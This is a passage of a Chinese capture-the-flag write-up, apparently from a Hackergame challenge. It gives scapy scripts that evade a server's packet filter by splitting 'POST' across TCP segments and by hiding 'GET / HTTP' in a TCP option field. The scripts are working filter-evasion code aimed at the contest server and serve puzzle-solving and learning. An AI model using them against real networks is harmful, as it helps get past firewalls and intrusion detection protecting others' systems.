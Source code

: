 用 `scapy` 模拟 `TCP 分段数据包`，将 `POST` 错开为 `PO` 和 `ST`，wireshark 抓包获取 flag。

```python
from scapy.all import *  
  
DST = '202.38.93.111'  
DPORT = 18080  
HTTP_REQUEST = b'POST / HTTP/1.1\r\nHost: \r\nContent-Length: 101\r\n\r\n token'  
syn = IP(dst=DST) / TCP(sport=random.randint(1024, 65535), dport=DPORT, flags='S')  
syn_ack = sr1(syn)  
  
first_segment = IP(dst=DST)/TCP(dport=DPORT, sport=syn_ack[TCP].dport,  
                            seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1, flags='PA') / Raw(load=HTTP_REQUEST[:2])  
  
first_segment_ack = sr1(first_segment)  
  
second_segment = IP(dst=DST)/TCP(dport=DPORT, sport=first_segment_ack[TCP].dport,  
                            seq=first_segment_ack[TCP].ack, ack=first_segment_ack[TCP].seq + 1, flags='PA') / Raw(load=HTTP_REQUEST[2:])  
  
send(second_segment)
```

### 我的 P

这一问用上一问的代码同样可以通过（虽然我也看不懂 iptable 那条规则写的是什么意思）。

### 我的 GET

这个就需要向 `TCP 头部` 塞东西了，问问 CHAT GPT 发现唯一可以塞入的就是 `OPTION` 字段，把 `GET / HTTP ` 塞到 `TCP 头部` 的 `OPTION` 里面就可以了，这里 `SYN` 请求也要放进去，不然刚开始握手就会被 `RST`。同样请求发送完毕，wireshark 查看 flag。

```python
from scapy.all import *  
  
DST = '202.38.93.111'  
DPORT = 18082  
HTTP_REQUEST = b'POST / HTTP/1.1\r\nHost: \r\nContent-Length: 101\r\n\r\ntoken'  
  
syn = IP(dst=DST) / TCP(sport=random.randint(1024, 65535), dport=DPORT, flags='S', options=[(253, b'GET / HTTP')])  
syn_ack = sr1(syn)  
  
request = IP(dst=DST) / TCP(dport=DPORT, sport=syn_ack[TCP].dport,  
                            seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1, flags='A',  
                            options=[(253, b'GET / HTTP')]) / Raw(load=HTTP_REQUEST)  
  
send(request)
```

## 为什么要打开 /flag 😡
